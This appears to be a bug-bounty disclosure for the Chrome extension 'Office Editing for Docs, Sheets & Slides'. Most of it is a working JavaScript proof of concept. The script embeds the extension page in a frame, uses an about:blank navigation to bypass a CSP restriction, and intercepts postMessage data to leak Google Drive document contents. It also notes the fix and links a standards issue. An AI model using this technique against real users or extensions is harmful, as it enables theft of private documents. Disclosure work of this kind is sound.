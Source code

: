 ```yaml
---
title: Office Editing for Docs, Sheets & Slides leak (Awarded $3133.70)
---
```


**URL:** <https://chromewebstore.google.com/detail/office-editing-for-docs-s/gbkeegbaiigmenfmjfclcdgdpimamgkj>

**PoC video:** <https://www.youtube.com/watch?v=r0ajiPGLh0M>

### Details

- **Replace `msofficeDocId` with the doc ID of a `pptx`/`docx` file you uploaded to google drive**
- It does not need to be shared with anyone.
- 3rd party cookies are required to be enabled however with browser heuristics this can be automatic for example it gets allowed if you open and interact with a popup on Chrome.

```js
let msofficeDocId = '1DuGHZhNFjJFCtOXVkA91t5o92Y3BRJ1u';

setInterval(() => {
  if (window.f) document.body.removeChild(f);
  f = document.createElement('iframe');
  f.width = 500;
  f.height = 500;
  f.src =
    'chrome-extension://gbkeegbaiigmenfmjfclcdgdpimamgkj/views/app.html?state=%7B"ids":%5B"' +
    msofficeDocId +
    '"%5D,"action":"open","resourceKeys":%7B%7D%7D';

  document.body.appendChild(f);

  let loop = setInterval(() => {
    // Wait for iframes to load
    if (f.contentWindow.length !== 2) return;
    clearInterval(loop);

    setTimeout(() => {
      f.contentWindow[0].location = 'about:blank';
      let loop2 = setInterval(() => {
        try {
          // Monitor for leaks via onmessage
          f.contentWindow[0].onmessage = (e) => {
            console.log('Data leaked :) ' + JSON.stringify(e.data));
          };
          clearInterval(loop2);
        } catch {}
      }, 0);
      // Wait a bit for the sandbox to request document content
    }, 600);
  }, 0);

  // Retry ever 2 seconds
}, 2000);
```

This issue was fixed by adding `frame-ancestors 'self'` to the `extension_pages` content security policy.

### frame-src 'self' bypass

Because of an `about:blank` edge case it's possible to navigate a nested, nested 3rd party iframe to it and bypass the child's CSP.  
This has resulted in leaking data due to the victim sending sensitive information to a iframe using the `*` scope that can be hijacked via good navigation timings even with the CSP.  
A GitHub issue was opened about this <https://github.com/w3c/webappsec-csp/issues/662>

### Attack scenario

Attacker websites can leak data from a user's google drive if they know the doc id.
